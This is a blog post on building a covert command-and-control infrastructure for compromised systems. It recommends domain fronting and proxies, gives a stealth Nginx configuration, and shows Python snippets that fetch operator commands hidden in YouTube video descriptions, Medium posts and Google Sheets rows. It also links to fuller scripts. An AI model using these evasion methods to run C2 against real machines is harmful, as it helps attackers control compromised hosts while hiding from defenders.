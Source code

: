 ```yaml
---
layout: post
title: "Crafting an Advanced and Inconspicuous C2 Infrastructure"
date: 2024-06-25
image: /assets/images/blogs/first-c2-post.jpg
categories: security c2
---
```


In today's cybersecurity landscape, creating a Command and Control (C2) infrastructure that is both advanced and inconspicuous is paramount. Whether you're involved in ethical hacking, penetration testing, or other legitimate purposes, your C2 operations must remain undetectable. This blog post explores innovative ways to establish an advanced C2 infrastructure using free platforms such as YouTube, Medium, and Google Sheets. Let's dive into the art of blending in with regular web traffic while maintaining the stealth you need.

### What is a C2 Server?

A C2 (Command and Control) server is a central hub used to send commands to and receive data from compromised systems (bots). For your script to operate effectively and inconspicuously, your C2 server should:
- Host command files for the script to fetch and execute.
- Receive data and status updates from the script.
- Ensure all communications are encrypted and stealthy.

### Setting Up a Stealthy C2 Server

#### 1. Choose a Stealthy Hosting Solution
- **Cloud Providers:** Use reputable cloud providers (AWS, Google Cloud, Azure) with minimal logging and monitoring.
- **Domain Fronting:** Use domain fronting to disguise traffic as legitimate requests to well-known services.
- **Proxy Servers:** Route traffic through multiple proxy servers to obscure the origin and destination.

#### 2. Use HTTPS with Domain Fronting
- **HTTPS:** Ensure all communications are encrypted using HTTPS.
- **Domain Fronting:** Configure your C2 server to use domain fronting. This technique routes traffic through high-reputation domains, making it appear as legitimate traffic.

#### 3. Create a Web Server with Stealth Features
- **Server Software:** Use a lightweight web server like Nginx or Apache.
- **Stealth Configuration:** Configure the server to use inconspicuous URLs and paths. Hide server banners and error messages.

*Example Nginx configuration with stealth features*:

```nginx
server {
    listen 443 ssl;
    server_name mylegitdomain.com;

    ssl_certificate /etc/ssl/certs/mylegitdomain.com.crt;
    ssl_certificate_key /etc/ssl/private/mylegitdomain.com.key;

    location /api {
        proxy_pass http://backend_server;
        proxy_set_header Host $host;
        proxy_set_header X-Real-IP $remote_addr;
        proxy_set_header X-Forwarded-For $proxy_add_x_forwarded_for;
        proxy_hide_header X-Powered-By;
        add_header X-Content-Type-Options nosniff;
        add_header X-Frame-Options DENY;
    }
}
```


#### 4. Implement Encrypted Command and Control
- **Commands Endpoint**: Create an endpoint for fetching commands.
- **Webhook Endpoint**: Create an endpoint for receiving data and status updates.
Example Flask application to handle commands and webhooks:*

[Flask Code Here](https://github.com/Dyst0rti0n/blog-scripts/blob/main/c2-scripts/flask/example.py)

## Free and Inconspicuous C2 Hosting Platforms
#### 1. YouTube: A Video Platform Turned C2 Hub
Imagine leveraging YouTube, the world’s largest video-sharing platform, as your stealthy C2 server. By embedding commands within video descriptions or comments, you can seamlessly blend your C2 operations into the vast sea of YouTube content.

#### Why YouTube?

- **Publicly Accessible**: Easily accessible and free.
- **High Traffic**: Blends in with regular traffic.
= **Dynamic Content**: Regular updates and high engagement.

#### Setting Up:
- **Create a YouTube Channel**: Use an anonymous or nondescript name.
- **Upload Videos**: Include commands in video descriptions or comments.
- **Fetch Commands**: Use the YouTube API to parse the descriptions.

*Example: Fetching Commands from YouTube Descriptions*

```python
from googleapiclient.discovery import build

def get_latest_video_description(api_key, channel_id):
    youtube = build('youtube', 'v3', developerKey=api_key)
    request = youtube.search().list(part='snippet', channelId=channel_id, order='date', maxResults=1)
    response = request.execute()
    
    if response['items']:
        video_id = response['items'][0]['id']['videoId']
        video_request = youtube.videos().list(part='snippet', id=video_id)
        video_response = video_request.execute()
...
```
[See the full script on GitHub](https://github.com/Dyst0rti0n/blog-scripts/tree/main/c2-scripts/youtube-hub)


#### 2. Medium: Blogging with a Hidden Agenda
Medium is a popular platform for sharing ideas and stories, but with a twist, it can become your covert C2 server. By posting commands as blog entries, you can hide in plain sight among the thousands of articles published daily.

#### Why Medium?
- **Public and Free**: Easily accessible and free.
- **Frequent Updates**: Constantly updated with new posts.
- **Anonymity**: Easy to create multiple accounts.

#### Setting Up:
1. **Create a Medium Account**: Use an anonymous or nondescript name.
2. **Post Commands**: Embed commands within blog posts.
3. **Fetch Commands**: Use RSS feeds or web scraping to fetch the latest commands.

*Example: Fetching Blog Posts from Medium*

```python
import feedparser
import time

def get_latest_post(feed_url):
    """
    Fetch the latest blog post from a given Medium RSS feed URL.

    Parameters:
    feed_url (str): The URL of the Medium RSS feed.

    Returns:
    str: The title of the latest blog post if available, otherwise None.
    """
    feed = feedparser.parse(feed_url)
    if feed.entries:
        return feed.entries[0].title
    return None
...
```
[See the full script on GitHub](https://github.com/Dyst0rti0n/blog-scripts/tree/main/c2-scripts/medium-fetcher)


#### 3. Google Sheets: Spreadsheet C2 Mastery
Google Sheets, a ubiquitous tool for collaboration and data storage, can also serve as an inconspicuous C2 server. By using the Google Sheets API, you can store commands and fetch them as needed.

#### Why Google Sheets?
- **Collaboration Tool**: Commonly used for legitimate purposes.
- **API Access**: Easy to fetch and update data programmatically.
- **Free**: Generous free tier for storage and access.

#### Setting Up:
1. **Create a Google Sheet**: Share with a service account for API access.
2. **Post Commands**: Add commands as new rows in the sheet.
3. **Fetch Commands**: Use the Google Sheets API to retrieve commands.

*Example: Fetching Commands from Google Sheets*

```python
import gspread
from oauth2client.service_account import ServiceAccountCredentials
import json
import sys

def get_latest_command(sheet_url, creds_json):
    try:
        scope = ["https://spreadsheets.google.com/feeds", "https://www.googleapis.com/auth/drive"]
        
        creds = ServiceAccountCredentials.from_json_keyfile_name(creds_json, scope)
        client = gspread.authorize(creds)
        
        sheet = client.open_by_url(sheet_url).sheet1
        
        commands = sheet.get_all_records()
        
        if commands:
            return commands[-1]['Command']
        else:
            return None
...
```

[See the full script on GitHub](https://github.com/Dyst0rti0n/blog-scripts/tree/main/c2-scripts/google-sheets)


### Conclusion
In an age where cybersecurity measures are becoming increasingly sophisticated, it's essential to think outside the box to stay ahead. Leveraging platforms like YouTube, Medium, and Google Sheets not only provides a cost-effective C2 infrastructure but also helps maintain a low profile. These methods allow your operations to blend seamlessly into the vast digital landscape, reducing the risk of detection.

Remember, with great power comes great responsibility. Ensure that all actions taken are ethical and legal, and that you have explicit permission to operate on any systems you control. Misuse of such technology can lead to severe legal consequences.

Stay stealthy, stay ethical, and continue exploring the boundaries of cybersecurity innovation!